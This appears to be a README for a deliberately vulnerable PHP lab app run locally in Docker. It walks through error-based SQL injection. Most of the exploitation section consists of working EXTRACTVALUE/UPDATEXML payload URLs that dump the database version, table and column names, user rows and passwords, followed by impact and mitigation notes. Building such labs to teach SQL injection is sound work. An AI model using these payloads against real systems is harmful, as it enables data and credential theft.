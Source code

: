 
# Error SQL injection: Setup and Exploitation Guide

This guide provides instructions to set up a vulnerable PHP web application, run it locally using Docker, and exploit SQL injection vulnerabilities to understand how such attacks work in real-world scenarios.
---

## Prerequisites

1. **Docker Installed**: Ensure Docker is installed on your system.
   - Check Docker version:
     ```bash
     docker --version
     ```

Install from docker.com if necessary.

2. **Basic Command Line Knowledge**: Ability to navigate and run commands in the terminal.

---

## Setting Up the Application
### Step 1: Clone the Repository
Clone this repository to your local machine:

git clone https://github.com/christina210490/Error-SQLI.git
cd Error-SQLI

### Step 2: Build and Run the Docker Containers
1. Build the Docker Environment:

docker-compose build

2. Run the Docker Containers:

docker-compose up

3. Access the Application: Open your browser and navigate to:

http://localhost:8081


4. Stop the Application: 

Press Ctrl+C in the terminal running docker-compose or stop it with:

docker-compose down

## Exploiting the SQL Injection Vulnerability


The vulnerable application is set up with a sample database. Below are step-by-step instructions to exploit SQL injection vulnerabilities in this application.


Attack 1: Retrieve MySQL Version

Exploit to find the MySQL version:

http://localhost:8081/?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, @@version)) -- -


Result: SQL error reveals the MySQL version: 5.7.44.

Attack 2: Retrieve Database Name:

Exploit to find the database name:

http://localhost:8081/?id=1' AND UPDATEXML(1, CONCAT(0x0a, DATABASE()), 1) -- -
Result: SQL error reveals the database name: testdb.

Attack 3: Retrieve the Number of Tables in the Database

http://localhost:8081/?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = 'testdb'))) -- -

Result: There are 3 tables.

Attack 4: Retrieve Table Names

1. Retrieve all table names in one query:

http://localhost:8081/?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'testdb'))) -- -

Result: orders,payments,users.

2. Retrieve table names one by one:

http://localhost:8081/?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'testdb' LIMIT 0,1))) -- -

Result: orders

http://localhost:8081/?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'testdb' LIMIT 1,1))) -- -


Result: payments

http://localhost:8081/?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'testdb' LIMIT 2,1))) -- -
Result: users

Attack 5: Retrieve Column Information

1. Retrieve the number of columns in the users table:

http://localhost:8081/?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT COUNT(*) FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'testdb'))) -- -

Result: 4.

2. Retrieve column names:

http://localhost:8081/?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT column_name FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'testdb' LIMIT 0,1))) -- -

Result: id.

Repeat for other columns: name, email, password.

Attack 6: Retrieve User Data

Retrieve rows from the users table:

http://localhost:8081/?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT CONCAT(id, ':', name, ':', email, ':', password) FROM users LIMIT 0,1))) -- -

Result: 1:Alice:alice@example.com:password1.

Repeat for other rows to retrieve all user data.

Attack 7: Extract All Passwords:

http://localhost:8081/?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT GROUP_CONCAT(password SEPARATOR '') FROM users))) -- -

Result: password1password2password3.

---

# Impact

This application demonstrates the critical risks of SQL injection vulnerabilities, including:

1. Data Theft: Attackers can retrieve sensitive information like user credentials.

2. Database Manipulation: Malicious queries can delete, modify, or insert data.

3. System Exposure: Attackers can gain insights into system configurations.

---

# Mitigation

To prevent SQL injection:

1. Use Prepared Statements:

Avoid directly concatenating user inputs into SQL queries.
Use parameterized queries.

2.Input Validation:

Validate and sanitize all user inputs.
Reject unexpected or dangerous input patterns.

3. Least Privilege:

Restrict database permissions to limit the impact of an exploited vulnerability.

## Key Takeaways

- This app demonstrates the risks of unsanitized user inputs in SQL queries.
- Real-world attackers could exploit such vulnerabilities to steal sensitive data or manipulate the database.
- Always use prepared statements and validate user inputs to prevent SQL injection.

---

## Disclaimer: 

This guide is intended for educational purposes in a controlled environment. Unauthorized testing or exploitation is illegal and may lead to legal consequences.
